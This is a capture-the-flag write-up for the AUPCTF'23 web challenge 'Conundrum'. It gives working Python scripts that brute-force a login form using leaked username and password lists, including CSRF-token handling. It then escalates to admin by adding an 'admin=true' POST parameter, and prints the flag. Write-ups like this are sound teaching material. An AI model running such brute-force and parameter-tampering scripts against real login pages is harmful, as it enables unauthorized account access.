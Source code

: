 ```yaml
---
title: AUPCTF'23 - Web - Conundrum
date: '2023-06-24'
tags: ['ctf', 'web', 'aupctf', 'writeup']
draft: false
summary: A detailed writeup for the web challenge `Conundrum` from AUPCTF'23
---
```


# AUPCTF'23 - Web - Conundrum

We're given the following URL to work with:

```js
https://challs.aupctf.live/conundrum/
```

Upon visiting the URL, we're greeted with a login page:

![Login Page](/static/writeups/aupctf/web/conundrum_login.png)

We can try to login with some random credentials, but we're greeted with the following error:

![Error Login Page](/static/writeups/aupctf/web/conundrum_err_login.png)

Using a `CTF` mindset, we try and visit some obvious pages, first, we visit robots.txt and get the following:

```js
User-agent: *
Disallow: /usernames/
Disallow: /passwords/
```

We visit the `/usernames/` directory and get the following:

![Usernames](/static/writeups/aupctf/web/conundrum_usernames.png)

Similarly, for passwords:

![Passwords](/static/writeups/aupctf/web/conundrum_passwords.png)

Now, to extract the username and passwords, I wrote the following python script:

```py
import requests
import re

url = "https://challs.aupctf.live/conundrum"

r = requests.get(f"{url}/usernames")
usernames = re.findall("<li>(.*?)</li>", r.text)

r = requests.get(f"{url}/passwords")
passwords = re.findall("<li>(.*?)</li>", r.text)

```

Now, we need to send the data to the login page, so, using Chrome dev tools, we firstly identify the `POST` request being sent to the server:

![DevTools](/static/writeups/aupctf/web/conundrum_request.png)

Now, here, we can see that, we have a `csrfmiddlewaretoken`. So, for that, we need to send a `GET` request to the login page, and extract the `csrfmiddlewaretoken` from the response, and then, with each request, we need to send the `csrfmiddlewaretoken` as well. Also, we will need the `csrftoken` cookie set as well and a `referer` header set to the login page. So, for that, I wrote the following final script.

```py
import requests
import re
import threading
import itertools

url = "https://challs.aupctf.live/conundrum/"
sess = requests.Session()
csrftoken = None

def _post(username, password):
	r = sess.post(
		url,
		headers = {
			'Referer' : url
		},
		data = {
			'csrfmiddlewaretoken' : csrftoken,
			'username' : username,
			'password' : password,
		}
	)

	if 'invalid' not in r.text.lower():
		print(f"=> {username}:{password}")
		print(f"Response: {r.text}")

print("[+] Fetching the usernames", end='')
r = requests.get(f"{url}/usernames")
usernames = re.findall("<li>(.*?)</li>", r.text)
print(f" : {len(usernames)}")

print("[+] Fetching the passwords", end='')
r = requests.get(f"{url}/passwords")
passwords = re.findall("<li>(.*?)</li>", r.text)
print(f" : {len(passwords)}")


print("[*] Combining both lists: ")
creds = list(itertools.product(usernames, passwords))

print("[*] Extracting the CSRF Token", end='')
sess.get(url)
csrftoken = sess.cookies.get('csrftoken')
print(f" : {csrftoken}")

print("[*] Bruteforcing...")
threads = []
for username, password in creds:
	t = threading.Thread(target=_post, args=(username, password))
	threads.append(t)
	t.start()

for t in threads:
	t.join()
```

Now, when running the script, we get the following output in matters of seconds:

```py
[+] Fetching the usernames : 20
[+] Fetching the passwords : 20
[*] Combining both lists: 
[*] Extracting the CSRF Token : ZQBndXSbKeH0C3Wnl3pLlP3epgwasd1F
[*] Bruteforcing...
=> starlord69:1A8$5k7!eR
Response: <!DOCTYPE html>
<html>
<head>
    <title>Login Successful</title>

</head>
<style>
    body {
        background-color: #f2f2f2;
        font-family: Arial, sans-serif;
        margin: 0;
        padding: 0;
    }
    .h{
        text-align: center;
        font-size: 36px;
    }
    .message {
        text-align: center;
        margin-top: 50px;
        margin-left: 5em;
        margin-right: 5em;
        font-size: 24px;
        color: #333;
    }

    .logout {
        display: block;
        text-align: center;
        margin-top: 20px;
        color: #a00606;
        text-decoration: none;
        font-size: 24px;
    }

    .logout:hover {
        color: #540a0a;
    }
</style>

<body>
    <h3 class="h">Login successful!</h3>
    <p class="message">You've entered the 'Userland'! The flag, however, is chilling in the 'Admin Paradise'.</p>
    <a href="/phash/" class="logout">Logout</a>

    </form>
</body>
</html>
```

Now, with the following credentials, `starlord69:1A8$5k7!eR`, we are able to login successfully:


![Login Success](/static/writeups/aupctf/web/conundrum_login_success.png)

Now, the message is pretty vague. I tried several different stuff. Finally, with a hint from the admins and a fellow hacker, I tried the two things and one of them worked

1. Adding a seperate `admin: 1` header in the http request
2. Adding a `admin=true` parameter in the POST request data (SPOILER, it worked.)

![burp_test](/static/writeups/aupctf/web/conundrum_burp.png)
![Flag](/static/writeups/aupctf/web/conundrum_flag.png)

So, since I love to automate everything, the final script to extract the flag became:

```py
import requests
import re

url = "https://challs.aupctf.live/conundrum/"
sess = requests.Session()

username = 'starlord69'
password = '1A8$5k7!eR'

print(f"[*] Using creds: {username}:{password}")

print("[*] Extracting the CSRF Token", end='')
sess.get(url)
csrftoken = sess.cookies.get('csrftoken')
print(f" : {csrftoken}")

r = sess.post(
	url,
	headers = {
		'Referer' : url
	},
	data = {
		'csrfmiddlewaretoken' : csrftoken,
		'username' : username,
		'password' : password,
		'admin' : 'true',
	}
)

flag = re.findall('class="flag">(.*?)</b>', r.text)[0]
print(f"[>] Flag: {flag}")
```

The final output and flag is:

```py
[*] Using creds: starlord69:1A8$5k7!eR
[*] Extracting the CSRF Token : 136nR4wCHKPlH5rj7O9VIyFRwSgn8X1j
[>] Flag: aupCTF{V1ct0ri0usChall3ng3r!}
```